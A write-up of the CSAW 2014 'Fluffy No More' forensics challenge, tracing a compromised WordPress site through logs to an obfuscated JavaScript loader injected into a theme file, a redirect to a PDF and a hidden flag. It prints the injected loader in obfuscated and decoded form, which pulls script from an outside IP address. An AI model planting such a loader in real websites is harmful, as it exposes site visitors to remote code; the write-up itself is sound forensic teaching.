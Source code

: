 # CSAW CTF 2014: Fluffy No More

**Category:** Forensics
**Points:** 300
**Description:**

> OH NO WE'VE BEEN HACKED!!!!!! -- said the Eye Heart Fluffy Bunnies Blog owner. Life was grand for the fluff fanatic until one day the site's users started to get attacked! Apparently fluffy bunnies are not just a love of fun furry families but also furtive foreign governments. The notorious "Forgotten Freaks" hacking group was known to be targeting high powered politicians. Were the cute bunnies the next in their long list of conquests!??
>
> Well... The fluff needs your stuff. I've pulled the logs from the server for you along with a backup of its database and configuration. Figure out what is going on!
>
> Written by brad_anton
>
> [CSAW2014-FluffyNoMore-v0.1.tar.bz2](CSAW2014-FluffyNoMore-v0.1.tar.bz2)

## Write-up

As its extension suggests, [the provided `CSAW2014-FluffyNoMore-v0.1.tar.bz2` file](CSAW2014-FluffyNoMore-v0.1.tar.bz2) is a bzip2-compressed tarball:

```bash
$ file CSAW2014-FluffyNoMore-v0.1.tar.bz2
CSAW2014-FluffyNoMore-v0.1.tar.bz2: bzip2 compressed data, block size = 900k
```

Let’s extract it:

```bash
$ tar xjfv CSAW2014-FluffyNoMore-v0.1.tar.bz2
x CSAW2014-FluffyNoMore-v0.1/
x CSAW2014-FluffyNoMore-v0.1/etc_directory.tar.bz2
x CSAW2014-FluffyNoMore-v0.1/logs.tar.bz2
x CSAW2014-FluffyNoMore-v0.1/mysql_backup.sql.bz2
x CSAW2014-FluffyNoMore-v0.1/webroot.tar.bz2
```

Oh, it contains more tarballs! Let’s extract those as well:

```bash
$ cd CSAW2014-FluffyNoMore-v0.1

$ for file in *.tar.bz2; do mkdir -p "${file}-extracted"; tar --directory "${file}-extracted" -xjf "${file}"; done
```

Viewing `logs.tar.bz2-extracted/var/log/auth.log` reveals an interesting entry:

```
Sep 17 19:20:09 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/usr/bin/vi /var/www/html/wp-content/themes/twentythirteen/js/html5.js
```

Someone with root access to the server edited the web-exposed `/wp-content/themes/twentythirteen/js/html5.js` file. Reviewing the file’s contents (`webroot.tar.bz2-extracted/var/www/html/wp-content/themes/twentythirteen/js/html5.js`), it’s clear that some malicious JavaScript code was inserted.

```js
var g="ti";var c="HTML Tags";var f=". li colgroup br src datalist script option .";f = f.split(" ");c="";k="/";m=f[6];for(var i=0;i<f.length;i++){c+=f[i].length.toString();}v=f[0];x="\'ht";b=f[4];f=2541*6-35+46+12-15269;c+=f.toString();f=(56+31+68*65+41-548)/4000-1;c+=f.toString();f="";c=c.split("");var w=0;u="s";for(var i=0;i<c.length;i++){if(((i==3||i==6)&&w!=2)||((i==8)&&w==2)){f+=String.fromCharCode(46);w++;}f+=c[i];} i=k+"anal"; document.write("<"+m+" "+b+"="+x+"tp:"+k+k+f+i+"y"+g+"c"+u+v+"j"+u+"\'>\</"+m+"\>");
```

The above script is equivalent to the following:

```js
document.write("<script src='http://128.238.66.100/analytics.js'><\/script>");
```

Let’s download [the `analytics.js` file](analytics.js) so we can take a look at it:

```bash
$ wget http://128.238.66.100/analytics.js
```

The file consists of minified code, most of which is legitimate. A small part of it stands out because it’s obfuscated, though:

```js
var _0x91fe=["\x68\x74\x74\x70\x3A\x2F\x2F\x31\x32\x38\x2E\x32\x33\x38\x2E\x36\x36\x2E\x31\x30\x30\x2F\x61\x6E\x6E\x6F\x75\x6E\x63\x65\x6D\x65\x6E\x74\x2E\x70\x64\x66","\x5F\x73\x65\x6C\x66","\x6F\x70\x65\x6E"];window[_0x91fe[2]](_0x91fe[0],_0x91fe[1]);
```

This [is equivalent to](https://mothereff.in/js-escapes#1var%20%5f0x91fe%3D%5B%22%5Cx68%5Cx74%5Cx74%5Cx70%5Cx3A%5Cx2F%5Cx2F%5Cx31%5Cx32%5Cx38%5Cx2E%5Cx32%5Cx33%5Cx38%5Cx2E%5Cx36%5Cx36%5Cx2E%5Cx31%5Cx30%5Cx30%5Cx2F%5Cx61%5Cx6E%5Cx6E%5Cx6F%5Cx75%5Cx6E%5Cx63%5Cx65%5Cx6D%5Cx65%5Cx6E%5Cx74%5Cx2E%5Cx70%5Cx64%5Cx66%22%2C%22%5Cx5F%5Cx73%5Cx65%5Cx6C%5Cx66%22%2C%22%5Cx6F%5Cx70%5Cx65%5Cx6E%22%5D%3Bwindow%5B%5f0x91fe%5B2%5D%5D%28%5f0x91fe%5B0%5D%2C%5f0x91fe%5B1%5D%29%3B):

```js
var _0x91fe=["http://128.238.66.100/announcement.pdf","_self","open"];
window[_0x91fe[2]](_0x91fe[0],_0x91fe[1]);
```

…which is equivalent to:

```js
window.open('http://128.238.66.100/announcement.pdf', '_self');
```

Let’s download [that `announcement.pdf` file](announcement.pdf):

```bash
$ wget http://128.238.66.100/announcement.pdf
```

Opening the PDF file in [PDF Stream Dumper](http://sandsprite.com/blogs/index.php?uid=7&pid=57) reveals some hidden JavaScript code:

![](pdf-stream-dumper.png)

```js
var _0xee0b=["\x59\x4F\x55\x20\x44\x49\x44\x20\x49\x54\x21\x20\x43\x4F\x4E\x47\x52\x41\x54\x53\x21\x20\x66\x77\x69\x77\x2C\x20\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x20\x6F\x62\x66\x75\x73\x63\x61\x74\x69\x6F\x6E\x20\x69\x73\x20\x73\x6F\x66\x61\x20\x6B\x69\x6E\x67\x20\x64\x75\x6D\x62\x20\x20\x3A\x29\x20\x6B\x65\x79\x7B\x54\x68\x6F\x73\x65\x20\x46\x6C\x75\x66\x66\x79\x20\x42\x75\x6E\x6E\x69\x65\x73\x20\x4D\x61\x6B\x65\x20\x54\x75\x6D\x6D\x79\x20\x42\x75\x6D\x70\x79\x7D"];var y=_0xee0b[0];
```

This [is equivalent to](https://mothereff.in/js-escapes#1var%20%5f0xee0b%3D%5B%22%5Cx59%5Cx4F%5Cx55%5Cx20%5Cx44%5Cx49%5Cx44%5Cx20%5Cx49%5Cx54%5Cx21%5Cx20%5Cx43%5Cx4F%5Cx4E%5Cx47%5Cx52%5Cx41%5Cx54%5Cx53%5Cx21%5Cx20%5Cx66%5Cx77%5Cx69%5Cx77%5Cx2C%5Cx20%5Cx6A%5Cx61%5Cx76%5Cx61%5Cx73%5Cx63%5Cx72%5Cx69%5Cx70%5Cx74%5Cx20%5Cx6F%5Cx62%5Cx66%5Cx75%5Cx73%5Cx63%5Cx61%5Cx74%5Cx69%5Cx6F%5Cx6E%5Cx20%5Cx69%5Cx73%5Cx20%5Cx73%5Cx6F%5Cx66%5Cx61%5Cx20%5Cx6B%5Cx69%5Cx6E%5Cx67%5Cx20%5Cx64%5Cx75%5Cx6D%5Cx62%5Cx20%5Cx20%5Cx3A%5Cx29%5Cx20%5Cx6B%5Cx65%5Cx79%5Cx7B%5Cx54%5Cx68%5Cx6F%5Cx73%5Cx65%5Cx20%5Cx46%5Cx6C%5Cx75%5Cx66%5Cx66%5Cx79%5Cx20%5Cx42%5Cx75%5Cx6E%5Cx6E%5Cx69%5Cx65%5Cx73%5Cx20%5Cx4D%5Cx61%5Cx6B%5Cx65%5Cx20%5Cx54%5Cx75%5Cx6D%5Cx6D%5Cx79%5Cx20%5Cx42%5Cx75%5Cx6D%5Cx70%5Cx79%5Cx7D%22%5D%3Bvar%20y%3D%5f0xee0b%5B0%5D%3B):

```js
var _0xee0b=["YOU DID IT! CONGRATS! fwiw, javascript obfuscation is sofa king dumb  :) key{Those Fluffy Bunnies Make Tummy Bumpy}"];
var y=_0xee0b[0];
```

The flag is `Those Fluffy Bunnies Make Tummy Bumpy`.

## Other write-ups and resources

* <http://balidani.blogspot.com/2014/09/csaw14-fluffy-no-more-writeup.html>
* <http://sugarstack.io/csaw2014-fluffy-no-more/>
* <https://hackucf.org/blog/csaw-2014-forensics-300-fluffy-no-more/>
